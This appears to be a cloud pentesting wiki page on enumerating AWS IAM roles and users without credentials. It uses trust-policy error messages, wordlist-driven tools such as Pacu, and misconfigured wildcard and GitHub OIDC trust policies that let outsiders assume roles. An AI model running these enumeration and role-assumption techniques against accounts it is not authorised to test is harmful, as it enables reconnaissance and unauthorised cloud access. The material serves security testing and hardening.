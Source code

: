 # AWS - IAM & STS Unauthenticated Enum

{{#include ../../../banners/hacktricks-training.md}}

## Enumerate Roles & Usernames in an account

### ~~Assume Role Brute-Force~~

> [!CAUTION]
> **This technique doesn't work** anymore as if the role exists or not you always get this error:
>
> `An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`
>
> You can **test this running**:
>
> `aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`

Attempting to **assume a role without the necessary permissions** triggers an AWS error message. For instance, if unauthorized, AWS might return:

```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```

This message confirms the role's existence but indicates that its assume role policy does not permit your assumption. In contrast, trying to **assume a non-existent role leads to a different error**:

```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```

Interestingly, this method of **discerning between existing and non-existing roles** is applicable even across different AWS accounts. With a valid AWS account ID and a targeted wordlist, one can enumerate the roles present in the account without facing any inherent limitations.

You can use this [script to enumerate potential principals](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum) abusing this issue.

### Trust Policies: Brute-Force Cross Account roles and users

Configuring or updating an **IAM role's trust policy involves defining which AWS resources or services are permitted to assume that role** and obtain temporary credentials. If the specified resource in the policy **exists**, the trust policy saves **successfully**. However, if the resource **does not exist**, an **error is generated**, indicating that an invalid principal was provided.

> [!WARNING]
> Note that in that resource you could specify a cross account role or user:
>
> - `arn:aws:iam::acc_id:role/role_name`
> - `arn:aws:iam::acc_id:user/user_name`

This is a policy example:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::216825089941:role/Test"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

#### GUI

That is the **error** you will find if you uses a **role that doesn't exist**. If the role **exist**, the policy will be **saved** without any errors. (The error is for update, but it also works when creating)

![](<../../../images/image (153).png>)

#### CLI

```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
    "Role": {
        "Path": "/",
        "RoleName": "Test-Role",
        "RoleId": "AROA5ZDCUJS3DVEIYOB73",
        "Arn": "arn:aws:iam::947247140022:role/Test-Role",
        "CreateDate": "2022-05-03T20:50:04Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::316584767888:role/account-balance"
                    },
                    "Action": [
                        "sts:AssumeRole"
                    ]
                }
            ]
        }
    }
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```

You can automate this process with [https://github.com/carlospolop/aws_tools](https://github.com/carlospolop/aws_tools)

- `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

- `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
- `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
- The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```

The attacker could just assume it.

## Third Party OIDC Federation

Imagine that you manage to read a **Github Actions workflow** that is accessing a **role** inside **AWS**.\
This trust might give access to a role with the following **trust policy**:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
        }
      }
    }
  ]
}
```

This trust policy might be correct, but the **lack of more conditions** should make you distrust it.\
This is because the previous role can be assumed by **ANYONE from Github Actions**! You should specify in the conditions also other things such as org name, repo name, env, brach...

Another potential misconfiguration is to **add a condition** like the following:

```json
"StringLike": {
    "token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```

Note that **wildcard** (\*) before the **colon** (:). You can create an org such as **org_name1** and **assume the role** from a Github Action.

## References

- [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
- [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{{#include ../../../banners/hacktricks-training.md}}
